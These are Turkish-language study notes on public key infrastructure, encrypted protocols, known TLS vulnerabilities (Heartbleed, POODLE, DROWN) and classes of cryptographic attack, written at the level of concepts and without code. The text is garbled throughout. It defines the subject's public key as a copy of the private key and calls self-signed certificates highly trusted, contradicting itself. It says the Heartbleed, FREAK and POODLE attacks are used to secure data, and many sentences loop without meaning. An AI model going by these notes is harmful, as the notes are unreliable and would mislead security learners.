- Key Usage - (Anahtar Kullanımı) terimi, bir sertifikanın hangi amaçlar için kullanılabileceğini gösterir. Bu terim, sertifikanın kullanım amacını belirtir ve genellikle bir sertifika oluşturulurken belirlenir. Örneğin, bir SSL sertifikasının anahtar kullanımı, bir web sitesinin güvenilirliğini doğrulamak için kullanılır ve bu sertifika yalnızca bu amaç için kullanılabilir. Diğer sertifikaların anahtar kullanımları da farklı olabilir ve sertifikanın hangi amaçlar için kullanılabileceğini belirtir. Örneğin, bir sertifika, bir kişinin kimliğini doğrulamak için kullanılabilir veya bir kuruluşun veya bir ürünün güvenilirliğini doğrulamak için kullanılabilir. 
- Subject’s Public Key - (Konu Özel Anahtarı) terimi, bir sertifikadaki konunun özel anahtarının bir kopyasını gösterir. Özel anahtar, bir sertifikayı oluşturan kişi veya kuruluşun kimliğini doğrulamak için kullanılan bir yöntemdir ve sertifika oluşturulurken kullanılır. Özel anahtar, konunun kimliğini doğrulamak için kullanılır ve sertifika yayıncısı tarafından onaylanır. Özel anahtar, sertifika oluşturulurken kullanılan bir algoritma kullanılarak oluşturulur ve sertifika oluşturulurken kullanılan özel anahtar, sertifikanın güvenilirliğini etkileyebilir. "Subject's Public Key" terimi, sertifikadaki konunun özel anahtarının bir kopyasını gösterir ve sertifika oluşturulurken kullanılır. 
- Optional Fields - (İsteğe Bağlı Alanlar) terimi, bir sertifikada yer alan bazı ek bilgileri gösterir. Bu bilgiler, sertifikanın işlevselliğini ve güvenilirliğini artırmak için kullanılabilir ve genellikle isteğe bağlı olarak eklenebilir. Örneğin, "Issuer Unique Identifier" (Yayıncı Özel Tanımlayıcısı) terimi, sertifika yayıncısının benzersiz bir tanımlayıcısını gösterir ve sertifikanın gerçekliğini doğrulamak için kullanılabilir. "Subject Alternative Name" (Konu Alternatif Adı) terimi ise, sertifikanın konusuna ait alternatif bir adı gösterir ve sertifika oluşturulurken eklenebilir. "Extensions" (Uzantılar) terimi ise, sertifikada yer alan ek bilgileri gösterir ve genellikle sertifikanın işlevselliğini ve güvenilirliğini artırmak için kullanılır. Bu bilgiler, sertifika oluşturulurken isteğe bağlı olarak eklenebilir ve sertifikanın işlevselliğini ve güvenilirliğini etkileyebilir. 
- "Root CAs" (Kök Sertifika Yayıncıları), bir sertifika zincirinin en üst düzeyine sahip olan sertifika yayıncılarıdır. Bir sertifika zinciri, bir sertifikanın gerçekliğini doğrulamak için kullanılan bir yöntemdir ve sertifika zincirinde, sertifikanın gerçekliğini doğrulayan yayıncılar birbirlerine bağlıdır. "Root CAs" sıklıkla güvenilir şirketler tarafından oluşturulur ve bazı durumlarda, bu şirketlerin oluşturduğu "Root CAs" otomatik olarak bazı işletim sistemlerine (OS) eklenir ve bu işletim sistemleri tarafından zaten güvenilir olarak kabul edilir. Bu, sertifika zincirinin güvenilirliğini artırmak için kullanılır ve sertifika zincirinin en üst düzeyinde yer alan "Root CAs", diğer sertifika yayıncılarına güven duyulmasını sağlar. Bu nedenle, "Root CAs" genellikle güvenilir şirketler tarafından oluşturulur ve bazı işletim sistemlerine otomatik olarak eklenir. 
- Self-Signed Certificates - "Self-Signed Certificates" (Kendi Kendine İmzalı Sertifikalar), bir sertifika yayıncısı tarafından imzalanmamış sertifikalardır. Bu sertifikalar genellikle genel kullanım için değil, yalnızca geliştirme amaçları için kullanılır. Örneğin, bir geliştirici, bir web uygulamasını test etmek için bir "self-signed certificate" oluşturabilir ve bu sertifika yalnızca test amaçları için kullanılır. "Self-Signed Certificates" genellikle güvenilirlik açısından düşük derecede değerlendirilir ve genel olarak bir sertifika yayıncısı tarafından imzalanmış olan sertifikalar gibi kabul edilmezler. Bu nedenle, "self-signed certificates" genellikle genel kullanım için değil, yalnızca geliştirme amaçları için kullanılır. 
- "Signed by the same entity it certifies" ifadesi, bir sertifikanın aynı kişi veya kuruluş tarafından imzalanmış olduğunu ifade eder. Bu durumda, sertifika oluşturan kişi veya kuruluş, aynı zamanda sertifikanın gerçekliğini de doğrular. Örneğin, bir SSL sertifikası oluşturan bir kuruluş, aynı zamanda sertifikanın gerçekliğini de doğrular ve bu sertifika yalnızca bu kuruluş tarafından imzalanmıştır. Bu tür bir sertifika, genellikle güvenilirlik açısından yüksek derecede değerlendirilir ve genel olarak bir sertifika yayıncısı tarafından imzalanmış olan sertifikalar gibi kabul edilir. 

Kayıt Otoritesi 

- Bir kullanıcının bir sisteme giriş yaptığında veya bir çevrimiçi işlem gerçekleştirirken kimliğinin doğrulandığını belirtir. Bu işlem genellikle bir kullanıcı adı ve şifre gibi giriş bilgilerinin kullanılmasıyla gerçekleştirilir ve kullanıcının kimliği, sistem tarafından doğrulanır. Bu işlem, bir kullanıcının güvenli bir şekilde bir sisteme giriş yapmasını ve çevrimiçi işlemlerini gerçekleştirmesini sağlar ve kullanıcı kimliğinin doğrulanması, sistemin güvenliğini artırır. 

Sertifika Yetkilisi 

- Bir kuruluşun dışında bulunan bir kişi veya kuruluşu ifade eder. Bu kişi veya kuruluş, dijital sertifikalar oluşturur ve bunları yayınlar. Örneğin, bir "third party" olarak, bir kuruluş SSL sertifikaları oluşturabilir ve bunları müşterilerine satabilir. Bu "third party" kuruluşlar, genellikle güvenilir ve güvenilirliği kanıtlanmış kuruluşlardır ve dijital sertifikaları oluşturmak ve yayımlamak için yetkilendirilmiştir. Bu "third party" kuruluşlar, dijital sertifikaları oluştururken birçok farklı yöntemi kullanabilir ve sertifikaları oluştururken kullanılan yöntemler, sertifikanın güvenilirliğini etkileyebilir. 

Sertifika İptal Listesi 

- Hangi sertifikaların problemleri olduğunu ve hangilerinin iptal edildiğini izlemek için kullanıldığını ifade eder. Bu işlem, sertifikaların güvenilirliğini kontrol etmek için kullanılır ve genellikle bir sertifika yayıncısı tarafından gerçekleştirilir. Örneğin, bir SSL sertifikası oluşturan bir kuruluş, sertifikaların problemleri olup olmadığını ve iptal edilip edilmediğini izleyebilir ve bu bilgi, sertifikanın güvenilirliğini doğrulamak için kullanılır. Bu işlem, sertifikaların güvenilirliğini kontrol etmek için kullanılır ve sertifika yayıncısı tarafından gerçekleştirilir. 

Doğrulama Yetkilisi 

- OCSP, bir sertifika yayıncısı tarafından gerçekleştirilen bir işlemdir ve sertifikaların güvenilirliğini doğrulamak için kullanılır. Örneğin, bir SSL sertifikası oluşturan bir kuruluş, sertifikaların güvenilirliğini doğrulamak için OCSP kullanabilir ve bu işlem, sertifikaların gerçekliğini doğrulamak için kullanılır. OCSP, sertifikaların güvenilirliğini doğrulamak için kullanılan bir yöntemdir ve sertifika yayıncısı tarafından gerçekleştirilir. Bu işlem, sertifikaların güvenilirliğini kontrol etmek için kullanılır ve sertifika yayıncısı tarafından gerçekleştirilir. 

Güven Modeli 

- İşletmelerin güvenlik amaçlarıyla anahtarlar, imzalar ve sertifikalar kullanımıyla ilgili olarak nasıl davrandıklarını belirtir. Örneğin, bir işletmenin içinde bulunan bir kuruluş, SSL sertifikaları oluşturmak ve bunları kullanmak için anahtarlar ve imzalar kullanabilir. Bu işlem, işletmenin güvenlik amaçlarına uygun bir şekilde gerçekleştirilir ve işletmenin içindeki kişi ve kuruluşların anahtarlar, imzalar ve sertifikalar kullanımıyla ilgili olarak nasıl davrandıkları belirlenir. Bu işlem, işletmenin güvenlik amaçlarına uygun bir şekilde gerçekleştirilir ve işletmenin içindeki kişi ve kuruluşların anahtarlar, imzalar ve sertifikalar kullanımıyla ilgili olarak nasıl davrandıkları belirlenir. 

Çapraz Sertifikasyon 

- Sertifika yayıncılarının birbirlerine güvenebildiğini ve sertifikaların gerçekliğini doğrulayabildiğini belirtir. Örneğin, iki farklı sertifika yayıncısı, birbirlerinin sertifikalarını doğrulayabilir ve bu sayede, sertifikaların güvenilirliği artar. Bu işlem, sertifika yayıncılarının birbirlerine güvenebildiğini ve sertifikaların gerçekliğini doğrulayabildiğini belirtir ve bu sayede, sertifikaların güvenilirliği arttırır. 

Tek Yetkili Sistem 

- Sertifika yayıncısının (CA) en üst düzeyde olduğunu ifade eder. Sertifika yayıncıları, bir sertifika zincirinin bir parçasıdır ve sertifika zincirinin en üst düzeyine sahip olan sertifika yayıncısı, "CA at the top" olarak adlandırılır. Sertifika zinciri, bir sertifikanın gerçekliğini doğrulamak için kullanılan bir yöntemdir ve sertifika zincirinde, sertifikanın gerçekliğini doğrulayan yayıncılar birbirlerine bağlıdır. "CA at the top" sıklıkla güvenilir şirketler tarafından oluşturulur ve bu şirketlerin oluşturduğu "CA at the top", diğer sertifika yayıncılarına güven duyulmasını sağlar. Bu nedenle, "CA at the top" genellikle güvenilir şirketler tarafından oluşturulur ve sertifika zincirinin en üst düzeyine sahiptir. 

Hiyerarşik Güven Sistemi 

- Sertifika yayıncısının (CA) en üst düzeyde olduğunu ve altında bir veya daha fazla RAs (alt sertifika yayıncıları) kullandığını ifade eder. Bu RAs, sertifikaları yayımlamak ve yönetmek için kullanılır. Örneğin, bir "root CA" olarak, bir kuruluş bir veya daha fazla "subordinate CA" kullanabilir ve bu "subordinate CA" lar, sertifikaları yayımlamak ve yönetmek için kullanılır. Bu sistem, sertifika yayıncısının (CA) en üst düzeyde olduğunu ve altında bir veya daha fazla RAs (alt sertifika yayıncıları) kullandığını ifade eder ve bu RAs, sertifikaları yayımlamak ve yönetmek için kullanılır. Bu sistem, sertifikaların gerçekliğini doğrulamak için kullanılır ve sertifika yayıncısı tarafından gerçekleştirilir. 

Anahtar Sarma ve Anahtar Şifreleme Anahtarları (Key Wrapping and Key Encryption Keys (KEK) 

- KEKler, genellikle bir sistemdeki anahtarların güvenliğini sağlamak için kullanılır ve anahtar dağıtımı veya anahtar değişimi işlemleri sırasında kullanılır. Örneğin, bir sistemdeki anahtarların güvenliğini sağlamak için KEKler kullanılabilir ve bu anahtarlar, anahtar dağıtımı veya anahtar değişimi işlemleri sırasında kullanılır. Bu işlem, anahtarların güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- Key Wrapping, genellikle bir sistemdeki anahtarların güvenliğini sağlamak için kullanılır ve oturum anahtarları, bir sistemdeki oturumlar sırasında kullanılan anahtarlardır. Örneğin, bir web taraması sırasında, bir kullanıcının tarama oturumu sırasında kullandığı anahtarlar oturum anahtarlarıdır ve bu anahtarlar, Key Wrapping işlemini kullanarak korunabilir. Bu işlem, anahtarların güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- Eğer şifreleme simetrik bir KEK ise, gönderen ve alıcının aynı anahtarın kopyasına ihtiyaç duyacağını ifade eder. Simetrik KEKler, genellikle bir sistemdeki anahtarların güvenliğini sağlamak için kullanılır ve bu anahtarlar, gönderen ve alıcının aynı anahtarın kopyasına ihtiyaç duyar. Örneğin, bir mesajın şifrelenmesi sırasında, eğer şifreleme simetrik bir KEK kullanılıyorsa, gönderen ve alıcının aynı anahtarın kopyasına ihtiyaç duyacaktır. Bu işlem, anahtarların güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- Eğer bir oturum anahtarını kapsülleme işleminde simetrik olmayan bir şifreleme kullanılıyorsa, gönderen ve alıcının diğerinin public anahtarına ihtiyaç duyacağını ifade eder. Asimetrik şifreleme, genellikle bir sistemdeki anahtarların güvenliğini sağlamak için kullanılır ve bu anahtarlar, public/private anahtar özelliklerine sahiptir. Örneğin, bir mesajın şifrelenmesi sırasında, eğer bir oturum anahtarını kapsülleme işleminde simetrik olmayan bir şifreleme kullanılıyorsa, gönderen ve alıcının diğerinin public anahtarına ihtiyaç duyacaktır. Bu işlem, anahtarların güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 

SSL, PGP ve S/MIME gibi protokollerin KEKlerin hizmetlerini kullandığını ve bu hizmetler sayesinde oturum anahtarının gizliliğini, bütünlüğünü sağladığını ve bazen de oturum anahtarının oluşturucusu ve oturum anahtarının kendisinin birbirine bağlandığını doğrulamayı sağlar. Örneğin, SSL, PGP ve S/MIME gibi protokoller, KEKlerin hizmetlerini kullanarak oturum anahtarının gizliliğini, bütünlüğünü sağlar ve bazen de oturum anahtarının oluşturucusu ve oturum anahtarının kendisinin birbirine bağlandığını doğrular. Bu işlem, anahtarların güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 

Tam Disk Şifreleme (Full Disk Encryption-FDE) 

- Data at Rest (DAR) - Data at Rest (DAR), genellikle bir sistemdeki verinin güvenliğini sağlamak için kullanılır ve saklı olarak depolanan veri, şu anda erişilemez durumdadır. Örneğin, bir veritabanında saklanan veri, Data at Rest (DAR) olarak adlandırılır ve bu veri, şu anda erişilemez durumdadır. Bu işlem, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- Tam disk şifreleme (FDE), genellikle bir sistemdeki verinin güvenliğini sağlamak için kullanılır ve bu veri, ön-önyükleme doğrulamasıyla korunur. Örneğin, bir bilgisayarın diskinin tamamı, tam disk şifreleme (FDE) kullanılarak şifrelenir ve bu diske erişim için ön-önyükleme doğrulaması gerekir. Bu işlem, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- Microsoft BitLocker ve McAfee Endpoint Encryption, tam disk şifreleme (FDE) örnekleri olarak kullanılır ve bu örnekler, bir sistemdeki verinin güvenliğini sağlamak için kullanılır. Örneğin, bir bilgisayarın diskinin tamamı, Microsoft BitLocker veya McAfee Endpoint Encryption gibi tam disk şifreleme (FDE) örnekleri kullanılarak şifrelenir ve bu diske erişim için ön-önyükleme doğrulaması gerekir. Bu işlem, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- Boot-n-root, bir sistemde yükleme ve kök erişimini amaçlayan bir saldırı türüdür ve bu saldırı türü, bir sistemdeki verinin güvenliğini tehdit edebilir. Tam disk şifreleme (FDE), bu tür saldırılara karşı verinin güvenliğini sağlamak için kullanılır ve boot-n-root karşı da koruma sağlar. Örneğin, bir bilgisayarın diskinin tamamı, tam disk şifreleme (FDE) kullanılarak şifrelenir ve bu diske erişim için ön-önyükleme doğrulaması gerekir. Bu sayede, boot-n-root gibi saldırı türlerine karşı verinin güvenliği sağlanmış olur. Bu işlem, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 

Şifreli İletişim 

- Sıklıkla Kullanılan Şifreli İletişim Yöntemleri : 
- Secure Shell (SSH) – ifadesi, telnet'in güvenli versiyonunun anlamını ifade eder. SSH, 22 nolu portu kullanır ve genellikle bir sistemdeki verinin güvenliğini sağlamak için kullanılır. SSH, genellikle açık anahtar kriptografisi kullanır ve SSH2, SSH'nin devamıdır ve SFTP'yi de içerir. Örneğin, bir bilgisayar sisteminde veri transferi yapılırken, SSH kullanılabilir ve bu sayede veri transferi güvenli bir şekilde gerçekleştirilebilir. Bu işlem, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- Secure Sockets Layer (SSL) – ifadesi, taşıma katmanı ve üstünde veriyi şifreler; RSA şifrelemesi ve dijital sertifikalar kullanır; altı aşamalı bir işlem süreci vardır; genellikle TLS tarafından yerine getirilmiştir. SSL, genellikle bir sistemdeki verinin güvenliğini sağlamak için kullanılır ve bu veri, taşıma katmanı ve üstünde şifrelenir. SSL, RSA şifrelemesi ve dijital sertifikalar kullanır ve bu işlem, altı aşamalı bir işlem süreci gerektirir. SSL, genellikle TLS tarafından yerine getirilmiştir ve bu işlem, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- Transport Layer Security (TLS) – ifadesi, RSA 1024 ve 2048 bitlerini kullanır; SSL'in devamıdır; hem müşteri hem de sunucunun birbirlerine doğrulama yapabilmelerine izin verir; TLS Record Protocol güvenli bir iletişim kanalı sağlar. TLS, genellikle bir sistemdeki verinin güvenliğini sağlamak için kullanılır ve bu veri, RSA 1024 ve 2048 bitlerini kullanarak şifrelenir. TLS, SSL'in devamıdır ve hem müşteri hem de sunucunun birbirlerine doğrulama yapabilmelerine izin verir. TLS Record Protocol ise, güvenli bir iletişim kanalı sağlar. Bu işlem, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- Internet Protocol Security (IPSEC) – ifadesi, ağ katmanı tünellenme protokolünün anlamını ifade eder. IPSEC, tünel ve taşıma modlarında kullanılır ve ESP, her paketi şifreler. IPSEC, genellikle bir sistemdeki verinin güvenliğini sağlamak için kullanılır ve bu veri, ağ katmanında tünellenir. IPSEC, tünel ve taşıma modlarında kullanılır ve ESP, her paketi şifreler. Bu işlem, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- PGP – ifadesi, "Pretty Good Privacy" anlamına gelir ve genellikle e-postalar, dosyalar ve dizinler için imza, sıkıştırma ve şifreleme işlemleri için kullanılır. PGP, hibrit kriptosistem olarak bilinir ve klasik ve açık anahtar kriptografisi özelliklerini içerir. PGP, genellikle bir sistemdeki verinin güvenliğini sağlamak için kullanılır ve bu veri, e-postalar, dosyalar ve dizinler için imza, sıkıştırma ve şifreleme işlemleri için kullanılır. PGP, hibrit kriptosistem olarak bilinir ve klasik ve açık anahtar kriptografisi özelliklerini içerir. Bu işlem, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- S/MIME - ifadesi, MIME verisinin açık anahtar şifreleme ve imzalaması için bir standarttır. S/MIME ile PGP arasındaki tek fark, PGP'nin dosya ve sürücüleri de şifreleyebilirken S/MIME'ın bunu yapamamasıdır. S/MIME, genellikle bir sistemdeki verinin güvenliğini sağlamak için kullanılır ve bu veri, MIME verisinin açık anahtar şifreleme ve imzalaması için kullanılır. S/MIME ile PGP arasındaki tek fark, PGP'nin dosya ve sürücüleri de şifreleyebilirken S/MIME'ın bunu yapamamasıdır. Bu işlem, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- Yürek Kanaması (Heartbleed) - OpenSSL göğüs atışını hedef alan bir saldırının anlamını ifade eder. OpenSSL göğüs atışı, verinin doğru bir şekilde alındığını doğrular. Heartbleed saldırısı, OpenSSL göğüs atışını hedef alır ve bu saldırı, verinin güvenliğini tehdit edebilir. Heartbleed saldırısı, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- Bir verinin bir byte'ının sunucudan 64kb veri alabileceği bir açıklık anlamına gelebilir. Bu açıklık, bir sistemdeki verinin güvenliğini tehdit edebilir ve bu açıklık, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir.  
- Bu verinin rastgele olduğu anlamına gelebilir ve bu veri, kullanıcı adları, parolalar, özel anahtarlar ve çerezler gibi verileri içerebilir. Bu veri, çok kolay bir şekilde elde edilebilir. Bu veri, bir sistemdeki verinin güvenliğini tehdit edebilir ve bu veri, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir.  
- Güvenlik açığı bulunan sürümler, Open SSL 1.0.1 ve 1.0.1f'yi içerir 
- CVE-2014-0160 
- FREAK (Factoring Attack on RSA-EXPORT Keys) - bir orta-sıradaki saldırının anlamını ifade eder ve bir RSA anahtarını daha zayıf bir uzunluğa indirgemek için zorlar. FREAK saldırısı, bir orta-sıradaki saldırıdır ve bir RSA anahtarını daha zayıf bir uzunluğa indirgemek için zorlar. Bu saldırı, bir sistemdeki verinin güvenliğini tehdit edebilir ve bu saldırı, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. 
- POODLE saldırısı, bir indirgeme saldırısıdır ve bir bağlantı kurulamadığında TLS'nin SSL'e düşürülmesi kullanılan bir açıklığı kullanır. Bu saldırı, bir sistemdeki verinin güvenliğini tehdit edebilir ve bu saldırı, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir. POODLE saldırısı, verinin güvenliğini sağlamak için kullanılır ve sistem tarafından gerçekleştirilir 
- SSl 3, kırılması kolay olan RC4'ü kullanır. 
- CVE-2014-3566 
- PoodleBleed olarak da adlandırılır. 
- DROWN (Decrypting RSA with Obsolete and Weakened Encryption) - SSL ve TLS hizmetlerini etkileyen bir açık (vulnerability) olup, eski ve zayıflatılmış şifreleme kullanarak RSA şifresini çözme anlamına gelmektedir. Bu açık, eski ve zayıflatılmış bir şifreleme kullanılarak şifrelenen verileri çözmeyi amaçlar ve bu verilerin güvenliğini tehlikeye atar. DROWN açığı, SSL ve TLS hizmetlerini kullanan sistemleri hedef alır ve bu sistemlerin güvenliğini tehlikeye atabilir. SSL (Secure Sockets Layer) ve TLS (Transport Layer Security), ağda veri güvenliğini sağlamak için kullanılan güvenlik protokolleridir. SSL ve TLS, verilerin iletim sırasında şifrelenmesini sağlar ve verilerin güvenliğini arttırır. SSL ve TLS, internet tarama, e-posta ve benzeri uygulamalar için sıklıkla kullanılır. RSA (Rivest-Shamir-Adleman), bir sayısal imzalama algoritması ve aynı zamanda bir şifreleme algoritmasıdır. RSA, verilerin güvenliğini sağlamak için kullanılır ve verilerin bir hash değerine dönüştürülmesi ve hash değerinin bir şifreleme anahtarı kullanılır. 
- Saldırganlar, şifrelemeyi kırarak hassas verileri çalabilir. 
- SSL v2'deki açıkları kullanır. 
- Sadece web sunucuları değil; IMAP ve POP sunucuları da olabilir. 

Kriptografi Saldırıları 

Bir şifreleme sisteminde bir veya daha fazla zaafiyeti kullanarak şifreleme sistemini kırmayı hedefleyen kriptografik saldırı yaklaşımıdır. Kriptografik saldırılar, bir şifreleme sistemini kırmak amacıyla yapılan saldırılardır. Kriptografik saldırılar, şifreleme sistemlerinde bulunan zaafiyetleri kullanarak şifreleme sistemlerini kırmayı hedefler. 

- Frekans Analizi ve Şifreli Metin Saldırısı :  
- Şifreli metin, verilerin güvenliğini sağlamak için kullanılan bir şifreleme yöntemiyle şifrelenmiş verilerdir. Bu veriler, okunamayacak hale getirilerek depolanır veya iletilerek güvenliğini sağlar. Şifreli metinler, genellikle okunamayacak hale getirilmiş harflerden ve sayılardan oluşur ve anlamlarını anlamaya çalışan kişilere gizli görünür. Bir şifre çözme (cryptanalysis) süreci sırasında, şifreli metinde harflerin sıklığı incelenir. Bu inceleme, şifreli metinlerin anlamını anlamaya yönelik bir yöntemdir ve harflerin sıklığının belirli bir düzen içinde olması, şifreli metinlerin anlamını anlamaya yardımcı olabilir. Bu nedenle, şifreli metinde harflerin sıklığı incelenirken, harflerin sıklığının düzeni ve bu düzenin nasıl kullanılabileceği gibi konular incelenir. 
- Açık metin (plaintext) 
- Şifreleme işlemine tabi tutulmamış verilerdir. Açık metin, okunabilir haldedir ve anlaşılır bir şekildedir. Açık metin, genellikle harflerden ve sayılardan oluşur ve anlamını açık bir şekilde anlamaya çalışan kişilere açıktır. Şifreli metin (ciphertext), açık metinin şifreleme işlemine tabi tutulmuş hali olup, okunamayacak hale getirilmiş verilerdir. Şifreli metinler, genellikle okunamayacak hale getirilmiş harflerden ve sayılardan oluşur ve anlamlarını anlamaya çalışan kişilere gizli görünür. Bir şifre çözme (cryptanalysis) süreci sırasında, şifreli metindeki harflerin açık metine hangi harfleri karşıladığı tahmin edilir. Bu tahmin, şifreli metinlerin anlamını anlamaya yönelik bir yöntemdir ve harflerin açık metine karşılık geldiği tahmin edilerek, şifreli metinlerin anlamını anlamaya çalışılır. 
- Bilinen Açık Metin Saldırıları 
- Açık metin (plain text), şifreleme işlemine tabi tutulmamış verilerdir. Açık metin, okunabilir haldedir ve anlaşılır bir şekildedir. Açık metin, genellikle harflerden ve sayılardan oluşur ve anlamını açık bir şekilde anlamaya çalışan kişilere açıktır. Şifreli metin (ciphertext), açık metinin şifreleme işlemine tabi tutulmuş hali olup, okunamayacak hale getirilmiş verilerdir. Şifreli metinler, genellikle okunamayacak hale getirilmiş harflerden ve sayılardan oluşur ve anlamlarını anlamaya çalışan kişilere gizli görünür. Bir şifre çözme (cryptanalysis) süreci sırasında, açık metin taranır ve tekrarlayan diziler aranır. 
- Seçilmiş Şifreli Metin Saldırısı  
- Bir şifre çözme (cryptanalysis) süreci sırasında, belirli bir şifreli metin mesajı seçilir ve bu mesajın anlamı anlaşılmaya çalışılır. Bu seçim, şifreli metinlerin anlamını anlamaya yönelik bir yöntemdir ve seçilen şifreli metin mesajının anlamı anlaşılmaya çalışılır. 
- Karşılaştırmalı analiz, verilerin karşılaştırılarak anlamaya çalışılan bir yöntemdir. Bu yöntem, veriler arasındaki benzerlikleri ve farklılıkları tespit etmeyi amaçlar ve bu sayede verilerin anlamı anlaşılmaya çalışılır. 
- RSA (Rivest-Shamir-Adleman), bir şifreleme algoritmasıdır ve bu algoritma, özellikle elektronik ortamda verilerin güvenliğini sağlamak amacıyla kullanılır. RSA, bir anahtar değişim protokolü olarak da kullanılır ve bu protokol sayesinde iki taraf arasında güvenli bir bağlantı kurulabilir. RSA, kriptografik saldırılara karşı özellikle açık olabilir ve bu nedenle, RSA kullanımı sırasında dikkatli bir şekilde kullanılması önemlidir. Bu açıklık, RSA algoritmasının özelliklerinden kaynaklanır ve bu özellikler sayesinde RSA, elektronik ortamda verilerin güvenliğini sağlamaya yönelik kullanılır. Ancak, bu özellikler aynı zamanda RSA'yı kriptografik saldırılara karşı özellikle açık hale getirebilir. 
- Seçilmiş Düz Metin Saldırıları 
- Saldırgan, anahtarı elde etmek amacıyla çoklu açık metin kopyalarını şifreleme işlemini gerçekleştirir. 
- Uyarlanabilir Seçilmiş Düz Metin Saldırısı 
- Saldırgan, önceki şifrelemelerden elde ettiği bilgilere dayanarak sonraki açık metinleri seçen bir dizi etkileşimli sorgu yapar; hedef şifreli metin ve anahtar hakkında daha fazla bilgi edinme fikrindedir. 
- Yalnızca Şifreli Metin Saldırısı 
- Aynı algoritma ile şifrelenmiş birkaç mesajın kopyalarını elde eder; sonra istatistiksel analiz, tekrar eden kodu ortaya çıkarmak için kullanılır. 
- Saldırı Tekrarı 
- Genellikle MITM saldırısı içerisinde gerçekleştirilir. MITM (Man-in-the-Middle) saldırısı, bir ağ üzerinde iki taraf arasında gerçekleştirilen bir iletişim sırasında, saldırganın bu iletişimin ortasına gizlenerek taraflar arasında iletişimi manipüle etmeyi amaçlayan bir saldırı türüdür. Bu saldırı, genellikle bir ağ üzerinde iki taraf arasında gerçekleştirilen bir iletişim sırasında gerçekleştirilir ve bu saldırı sayesinde saldırgan, iletişimin ortasına gizlenerek taraflar arasında iletişimi manipüle edebilir. Bu saldırı türü, ağ üzerinde iki taraf arasında gerçekleştirilen bir iletişim sırasında gerçekleştirilebilir ve bu saldırı türü sayesinde saldırgan, iletişimin ortasına gizlenerek taraflar arasında iletişimi manipüle edebilir. 
- Bir kriptografik değişimi tekrarlayan bir hacker’ ın sistemi kandırmayı ve bir iletişim kanalı kurmayı hedefler. 
- Gerçek verinin ne olduğu bilinmiyor, sadece zamanlamayı doğru yapmak gerekiyor. Zamanlamalar, bir işlem veya bir etkinlik için uygun bir zamanda yapılmasını ifade eder. Zamanlamalar, genellikle bir işlem veya bir etkinlik için uygun bir zamanda yapılmasını ifade eder ve bu zamanlamalar sayesinde işlemler ve etkinlikler, uygun bir zamanda gerçekleştirilebilir. Gerçek veri, gerçek olarak bilinen verilerdir ve bu veriler, genellikle doğrulukları kanıtlanmış olan verilerdir. Gerçek veriler, genellikle doğrulukları kanıtlanmış olan verilerdir ve bu veriler, genellikle doğru olduğu kanıtlanmış olan verilerdir. 
- Yan Kanal Saldırısı 
- Güç tüketimi, zamanlamalar ve gecikmeler gibi çevresel faktörleri izler. 
- Ortada Buluşmak (Meet-şn-the-Middle) 
- İki tur DES, DES standartının iki tur şifreleme kullanarak yapılandırılmış bir versiyonudur ve bu versiyon, DES standartının iki tur şifreleme kullanarak yapılandırılmıştır. 
- Doğum Günü Saldırısı / Çarpışma Saldırısı / Ters Hash eşleştirme 
- Hash fonksiyonları, verileri bir kümeye dönüştürmeye yönelik kullanılan matematiksel işlemlerdir. Hash fonksiyonları, genellikle verilerin bir kümeye dönüştürülmesi için kullanılır ve bu fonksiyonlar sayesinde veriler, bir kümeye dönüştürülebilir. Bir-eşleşme ilişkisi, bir verinin yalnızca bir diğer veriyle eşleşebildiği ilişkiyi ifade eder. Bir-eşleşme ilişkisi, genellikle bir verinin yalnızca bir diğer veriyle eşleşebildiği ilişkiyi ifade eder ve bu ilişki, genellikle bir verinin yalnızca bir diğer veriyle eşleşebildiği ilişkiyi ifade eder. 
- Zamanlama Saldırısı 
- Kripto sistemlerindeki bileşenlerin tam yürütme sürelerinin incelenmesine dayanır. 
- Lastik Hortum Saldırısı (Rubber-Hose Attack) 
- ihtiyaç duyulan bilgilerin çıkarılması için tehditlerin kullanılmasına dayalı bir saldırı türüdür. 
- Sabit Kodlu Anahtarlar (DUHK) Saldırısı Kullanmayın (Don’t Use Hard-Coded Keys (DUHK) 
- ANSI X9.31 Rastgele Sayı Üretimi'ni uygulayan donanım/yazılıma karşı kullanılan bir saldırı türüdür. 
- Sosyal Mühendislik Saldırıları 
- Bu, psikolojik yöntemler kullanarak insanların gizli bilgileri açıklamaya ve normal olarak yapmayacakları eylemleri yapmaya ikna etmeyi amaçlayan bir tür saldırıdır. Bu, phishing (sahte e-posta veya mesajlar göndererek kurbanın güvenlik bilgilerini açıklamasını sağlama), baiting (güvenlik bilgilerini vermeye ikna etmek için bir şey sunma), pretexting (bir sahte kimlik veya hikaye oluşturarak birinden gizli bilgi edinme) ve quid pro quo (bir şey sunarak bir favori elde etme) gibi taktikleri içerebilir. Sosyal mühendislik saldırıları, teknik zayıflıklar yerine insan psikolojisine dayanarak çok etkili olabilir. Bu taktiklerden haberdar olmak ve gizli bilgileri paylaşırken dikkatli olmak önemlidir. 

Araçlar 

- Carnivore and Magic Lantern – Kolluk kuvvetleri tarafından kodları kırmak için kullanılır 
- L0phtcrack – Özellikle Windows SAM dosyalarına karşı kullanılır. 
